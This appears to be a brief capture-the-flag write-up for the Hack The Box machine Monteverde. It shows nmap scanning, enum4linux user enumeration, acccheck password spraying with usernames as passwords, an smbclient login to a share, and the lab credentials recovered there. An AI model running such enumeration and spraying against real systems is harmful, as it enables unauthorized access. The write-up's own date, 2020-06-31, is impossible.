 ```yaml
---
title:  "Hack The Box - Monteverde"
date:   2020-06-31
categories: [ctf]
tags: [Windows, writeups, ctf]
---
```

My write-up / walktrough for the machine `Moneverde` on Hack The Box.

![info](/images/monteverde/info.png)

## nmap
`nmap -sTV -p 1-10000 -Pn -oN nmap_tcp_scan monteverde.htb
`

![nmap](/images/monteverde/nmap.png)

`enum4linux -U monteverde.htb`

![enum4linux](/images/monteverde/enum4linux.png)

` ./acccheck/acccheck.pl -t monteverde.htb -U users.txt -P users.txt `

![acccheck](/images/monteverde/acccheck.png)

SABatchJobs:SABatchJobs

`smbclient \\\\monteverde.htb\\users$ -U SABatchJobs`

![smbmap](/images/monteverde/smbmap.png)

so getting and showing this file, I got `4n0therD4y@n0th3r$`

![azure](/images/monteverde/azure_creds.png)


AAD_987d7f2f57d2:4n0therD4y@n0th3r$
